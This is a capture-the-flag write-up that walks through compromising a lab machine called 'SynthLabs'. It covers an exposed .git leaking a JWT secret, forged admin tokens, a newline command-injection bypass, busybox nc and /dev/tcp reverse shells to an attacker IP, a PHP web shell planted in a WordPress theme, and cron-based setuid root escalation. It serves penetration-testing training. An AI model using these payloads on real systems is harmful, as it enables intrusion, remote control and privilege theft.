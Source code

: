 # SynthLabs
![](../images/synthlabs/index.png)

## Recon
At the beginning, I used `nmap` with the following parameters to scan the target. 
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/synthlab]
└──╼ $sudo nmap -sSVC -Pn -T5 --min-rate 2000 -p- 172.16.0.210
Nmap scan report for 172.16.0.210
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 19:91:a6:2e:17:d4:98:d7:68:68:e8:d3:88:e5:e9:62 (ECDSA)
|_  256 77:7f:8a:01:61:1e:b1:c3:30:aa:d1:1d:77:23:b8:37 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://synthlabs.hc/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan revealed only ports 22 (SSH) and 80 (HTTP) as open. This suggests that the target is likely running a web service and allowing remote SSH connections. Also we need add `synthlabs.hc` in `/etc/hosts`.

First, I performed fuzzing on the web application using `ffuf` to discover hidden directories and files: `ffuf`.
```
/.git
/api/user - GET
/api/auth/login - POST
/api/auth/register - POST
/api/admin - GET
/api/admin/git - POST
```

We can observe that a Git repository is exposed, so we can use `git-dumper` to extract its contents. Inside the repository, we find a `.env` file that contains:
```
SECRET=zqe%]BJmwPZGGGN&S%yGT%3{z/3)Nq_a@$@
PORT=3000
DOJO_URL=http://localhost:8080
TOKEN_DOJO=28f538e6b2f27e342e494e5fd7e837246aa7f19b
```

## Exploitation
We can observe that there is an API and a DefectDojo instance, but they are not directly accessible to us. So, the first step is to understand the web application.

Initially, we create a user at `/api/auth/register`.
![](../images/synthlabs/user_created.png)

Then, we log in at `/api/auth/login`. The login returns a JWT token.
![](../images/synthlabs/user_login.png)

JWT structure:
```
Header
{
  "alg": "HS256",
  "typ": "JWT"
}

Payload
{
  "userId": "7a88f17e-a6e9-4651-b9aa-26311affbcfd",
  "role": "user",
  "iat": 1747499875,
  "exp": 1747503475
}
```

With the secret obtained from the `.env` file, we can try to modify the "role" claim to "admin". In this case, we successfully change it, and by testing the `/api/admin` endpoint, we are authorized as an admin.
![](../images/synthlabs/change_role_jwt.png)

At the `/api/admin/git` endpoint, we can send a POST request with the `repository` parameter set to "test". Notice that it returns a "Git command execution failed" message along with the following output:  
`Command failed: git -C test status\nfatal: cannot change to 'test': No such file or directory\n`.  
It seems there is a command injection vulnerability in this parameter.
![](../images/synthlabs/code_injection_poc1.png)

By testing some bypass techniques such as `$(whoami)`, `;ls;`, `|| ls ||`, among others, we can observe that the application returns:
```
{"message":"Dangerous characters blocked!"}
```

After some time, we discovered that by using `\n`, we can bypass the restriction. This allows us to get a reverse shell with the following payload:
```
POST /api/admin/git HTTP/1.1
Host: synthlabs.hc
Content-Type: application/json
Content-Length: 64
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI3YTg4ZjE3ZS1hNmU5LTQ2NTEtYjlhYS0yNjMxMWFmZmJjZmQiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NDc0OTk4NzUsImV4cCI6MTc0NzUwMzQ3NX0.gKwKZJGfHDBhy3w0AHq6tkfgrYAfswYlkxgp_eZsQqk

{"repository":"t\nbusybox nc 10.0.10.235 4444 -e sh\nsleep(13)"}
```
## Post Exploitation
By inspecting the processes with `pspy`, we see that the root user (UID 0) is running the `backup.sh` script. If we modify this file, we can perform privilege escalation.
```bash
2025/02/23 00:41:01 CMD: UID=0     PID=175634 | /usr/sbin/CRON -f -P 
2025/02/23 00:41:01 CMD: UID=0     PID=175635 | /usr/sbin/CRON -f -P 
2025/02/23 00:41:01 CMD: UID=0     PID=175636 | /bin/bash /var/www/synthlabs-blog/backup.sh 
2025/02/23 00:41:01 CMD: UID=0     PID=175637 | /bin/bash /var/www/synthlabs-blog/backup.sh 
2025/02/23 00:41:01 CMD: UID=0     PID=175638 | /bin/bash /var/www/synthlabs-blog/backup.sh 
2025/02/23 00:41:01 CMD: UID=0     PID=175639 | /bin/bash /var/www/synthlabs-blog/backup.sh
```

We do not have permission to modify this file; only the `www-data` user does.
```bash
thiago@ip-172-16-0-210:/home/thiago/synthlabs/src$ ls -la /var/www/synthlabs-blog/backup.sh
-rwxr-xr-x 1 www-data root 308 Feb 22 05:44 /var/www/synthlabs-blog/backup.sh
```

Checking the internal ports with `ss -tlnp`, we see:
```bash
State                 Recv-Q                Send-Q                               Local Address:Port                                Peer Address:Port               Process                                         
LISTEN                0                     4096                                 127.0.0.53%lo:53                                       0.0.0.0:*                                                                  
LISTEN                0                     511                                        0.0.0.0:80                                       0.0.0.0:*                                                                  
LISTEN                0                     4096                                     127.0.0.1:46293                                    0.0.0.0:*                                                                  
LISTEN                0                     151                                      127.0.0.1:3306                                     0.0.0.0:*                                                                  
LISTEN                0                     4096                                     127.0.0.1:8000                                     0.0.0.0:*                                                                  
LISTEN                0                     4096                                     127.0.0.1:8080                                     0.0.0.0:*                                                                  
LISTEN                0                     70                                       127.0.0.1:33060                                    0.0.0.0:*                                                                  
LISTEN                0                     4096                                     127.0.0.1:8443                                     0.0.0.0:*                                                                  
LISTEN                0                     4096                                    127.0.0.54:53                                       0.0.0.0:*                                                                  
LISTEN                0                     511                                      127.0.0.1:3000                                     0.0.0.0:*                   users:(("node",pid=1143,fd=26))                
LISTEN                0                     4096                                             *:22                                             *:*                                                                  
```

When testing port 8000, we find a WordPress application (corresponding to synthlabs-blogs).

We will use the tool `chisel` for tunneling.  
Attacker machine:
```bash
./chisel server -p 12312 --reverse
```

Target machine:
```bash
/tmp/tools/chisel client 10.0.10.235:12312 R:8000:127.0.0.1:8000
```

Still on the machine as the user `thiago` with the "admin" role, we will create a WordPress user by using the `wp-load.php` file. An alternative way to create an account is to generate a hash and directly replace the admin password in the database using the credentials from `wp-config.php`.
```php
<?php
define('WP_USE_THEMES', false);
require_once('/var/www/synthlabs-blog/wp-load.php');

$user = 'ribeirin';
$pass = 'ribeirin@hc';
$email = 'ribeirin@hc.com';

if (!username_exists($user) && !email_exists($email)) {
    $user_id = wp_create_user($user, $pass, $email);
    $user = new WP_User($user_id);
    $user->set_role('administrator');
    echo "User created";
} else {
    echo "Error";
}
?>
```

Now, just run `php /tmp/adduser.php`.

To execute a reverse shell in WordPress, we can modify the `functions.php` file in the theme (I will modify the twentytwentyfive theme) to achieve RCE. We need to keep only the payload in the `functions.php` file (this may cause communication errors).

Now, in the "Theme File Editor" (`http://localhost:8000/wp-admin/theme-editor.php`), select the "Twenty Twenty Five" theme from the top right corner.

In the "Theme Files" section on the right, click on `functions.php`. Delete everything and insert a PHP payload (be careful not to make it too large, as it might cause communication issues when using chisel):
```bash
<?php system($_GET['cmd']); ?>
```

Then, click on "Update File".

Now, simply access the file and include a payload to get a reverse shell:
```
http://localhost:8000/wp-content/themes/twentytwentyfive/functions.php?cmd=

http://localhost:8000/wp-content/themes/twentytwentyfive/functions.php?cmd=%2Fbin%2Fbash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.10.235%2F4455%200%3E%261%27
```

Now, just modify `backup.sh` and add the privilege escalation payload: `chmod u+s /bin/bash`.
```
www-data@ip-172-16-2-127:/var/www/synthlabs-blog$ /bin/bash -p
bash-5.2# whoami
root

bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```
